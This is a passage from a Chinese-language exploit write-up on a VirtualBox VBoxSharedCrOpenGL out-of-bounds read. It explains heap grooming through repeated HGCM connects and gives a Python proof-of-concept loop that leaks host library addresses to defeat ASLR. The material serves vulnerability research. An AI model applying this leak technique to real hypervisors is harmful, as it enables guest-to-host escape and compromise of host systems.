 pSvcBuffer-&gt;pData 为 Guest 通过 SHCRGL\_GUEST\_FN\_WRITE\_BUFFER 命令分配大小可控.

下面介绍如何利用越界读泄露 VBoxSharedCrOpenGL.so 和 VBoxOGLhostcrutil.so 的地址.

在 Guest 连接 `VBoxSharedCrOpenGL`​ 服务时会分配 CRClient 和 CRConnection 结构体，这两个结构体中分别存放了VBoxSharedCrOpenGL.so 和 VBoxOGLhostcrutil.so 的地址，因此通过布局让这两个结构体位于 pSvcBuffer-&gt;Data 的前后，然后触发越界读即可泄露出需要的地址。

crVBoxServerAddClient 在新建 client 结构体后会将 cr\_server 的地址放到 newClient-&gt;currentCtxInfo , cr\_server 位于 VBoxSharedCrOpenGL.so 中.

```c
int32_t crVBoxServerAddClient(uint32_t u32ClientID)
{
    CRClient *newClient;

    newClient = (CRClient *) crCalloc(sizeof(CRClient));
    newClient->spu_id = 0;
    newClient->currentCtxInfo = &cr_server.MainContextInfo;
```

由于越界读漏洞的触发不会对系统稳定性造成影响，理论上可以无限次尝试，所以 poc 代码中泄露地址这块写的比较简单.

```python
    leak_success = False;
    while not leak_success:
        for i in range(0, 10):
            print("Connect VBoxSharedCrOpenGL.")
            leak_client = hgcm_connect("VBoxSharedCrOpenGL")
            hgcm_disconnect(leak_client)

        msg = make_leak_msg(0x100000000-0x9b8)
        result = crmsg(client, msg)

        if "\x7f\x00\x00" in result:
            leak = unpack('<Q', result[16:24])[0]
            print("leak: {}".format(hex(leak)))
            if (leak%0x1000 == 0x170):
                leak_success = True
                break
```

大概思路：

1. 通过多次 hgcm\_connect + hgcm\_disconnect 在堆上分配多个 CRClient 对象
    
    
    - 由于所有 **client-&gt;pid 为 0**，所以在 crVBoxServerRemoveClient 中释放 CRClient 时会把 CRClient 放到一个链表中
    - 等所有 client 退出后才会调用 free 释放 CRClient 内存.
    - POC 中一开始初始化了一个全局 client，所以这步操作后堆上会**有多个待释放的 CRClient**.
2. 然后触发漏洞在 CRClient 的后面分配 pSvcBuffer-&gt;pData，然后向前越界读获取 CRCClient 对象的**​ cr\_server 指针**
    
    
    - crmsg 有三个参数：client、 msg、 bufsz，第三个参数默认为 0x1000
        
        
        - 首先会通过 SHCRGL\_GUEST\_FN\_WRITE\_BUFFER 分配大小为 `bufsz`​ 的 pSvcBuffer-&gt;pData，然后把 msg 的数据拷贝进去
        - 然后通过 SHCRGL\_GUEST\_FN\_WRITE\_READ\_BUFFERED 进入 crUnpackExtendGetAttribLocation 触发漏洞.
    - 因此这一步分配的 pSvcBuffer-&gt;pData 的大小为 **0x1000**.
3. 如果获取失败，说明堆布局有问题，回到第一步继续尝试.
